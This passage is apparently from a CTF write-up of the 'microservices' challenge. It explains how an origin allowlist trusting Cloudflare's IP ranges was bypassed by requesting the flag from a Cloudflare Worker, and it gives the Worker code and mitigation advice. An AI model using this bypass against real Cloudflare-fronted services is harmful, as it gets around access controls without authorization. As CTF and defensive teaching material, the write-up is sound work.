 The config defines what IP addresses are allowed to make requests to the backend API.
Because our local test environment was running on localhost, we were able to fetch the flag directly but not on the challenge server.
And since the proxy allows connections from Cloudflare's IP address pool, we can bypass the 403 forbidden error by sending a request from Cloudflare's servers.
During the event, I tried using Cloudflare WARP but Cloudflare puts WARP users in a different address pool that was not in the allowed list.

The workaround was to use [Cloudflare Workers](https://workers.cloudflare.com/) to fetch the flag from the flag API.

```js
export default {
    async fetch(request, env, ctx) {
      const response = await fetch("http://microservices-challenge.eqctf.com:5555/flag", {
        method: "GET",
        headers: {
          "Accept": "application/json",
        },
      });
  
      const data = await response.text();
      return new Response(data, {
        headers: { "Content-Type": "text/plain" },
      });
    },
  };
```

![](/assets/img/2025-04-13-umcsctf-2025-prelims/microservices.png)

I highly recommend reading [this blog post](https://javan.de/relying-solely-on-ip-allowlisting-with-cloudflare-is-wrong/) from Javan Rasokat that goes through the attack scenario in detail.
In short, we shouldn't put too much trust into allowlisting IP addresses as a security measure, but use it as a defense-in-depth.
To mitigate against this attack scenario, it is recommended to implement custom certificates for [authenticated origin pools](https://developers.cloudflare.com/ssl/origin-configuration/authenticated-origin-pull/explanation/), and configure host header validation on the origin server to only accept requests from verified domains.